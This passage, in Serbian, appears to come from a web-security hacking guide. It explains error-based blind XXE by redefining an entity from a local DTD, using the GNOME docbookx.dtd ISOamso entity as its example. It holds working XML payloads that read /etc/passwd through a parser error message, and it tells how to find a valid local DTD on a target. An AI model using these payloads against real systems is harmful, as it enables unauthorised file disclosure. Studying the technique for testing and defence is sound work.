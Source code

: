 ```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Izvršene su navedene korake ovim DTD-om:

* Definicija XML parametarskog entiteta nazvanog `local_dtd` uključuje eksterni DTD fajl smešten na serverskom fajl sistemu.
* Dolazi do redefinicije XML parametarskog entiteta `custom_entity`, koji je prvobitno definisan u eksternom DTD-u, kako bi obuhvatio [exploit zasnovan na XXE grešci](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages). Ova redefinicija je osmišljena da izazove grešku pri parsiranju, otkrivajući sadržaj fajla `/etc/passwd`.
* Korišćenjem entiteta `local_dtd`, angažuje se eksterni DTD, obuhvatajući novo definisani `custom_entity`. Ova sekvenca radnji izaziva emitovanje greške koju exploit cilja.

**Primer iz stvarnog sveta:** Sistemi koji koriste GNOME desktop okruženje često imaju DTD na lokaciji `/usr/share/yelp/dtd/docbookx.dtd` koji sadrži entitet nazvan `ISOamso`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

Kako ova tehnika koristi **unutrašnji DTD, prvo morate pronaći validan**. To možete uraditi **instaliranjem** istog **OS / softvera** koji server koristi i **pretraživanjem nekih podrazumevanih DTD-ova**, ili **preuzimanjem liste** podrazumevanih DTD-ova unutar sistema i **proverom** da li neki od njih postoji:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

